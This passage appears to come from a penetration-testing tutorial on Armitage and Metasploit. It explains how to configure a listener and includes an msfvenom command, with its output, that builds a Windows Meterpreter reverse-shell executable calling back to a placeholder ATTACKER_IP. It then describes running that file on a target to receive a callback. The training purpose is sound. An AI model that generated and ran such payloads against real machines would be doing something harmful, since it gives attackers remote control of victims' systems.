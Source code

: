 *Configuring the Listener*

After pressing enter, a new pane will open up, confirming that your listener  has been created. This should look like the standard Metasploit  exploit/multi/handler module.

![img](./assets/7bc806ea13495e55eb82fc5c399d8876.png)

*Listener successfully configured*

After setting up a listener, you can generate a standard  windows/meterpreter/reverse_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage  server. 

**Getting a Callback**

MSFVenom Payload Generation

```shell-session
           root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

After generating the windows/meterpreter/reverse_tcp using  MSFVenom, we can transfer the payload to a target machine and execute  it. After a moment or two, you should receive a callback from the  machine.


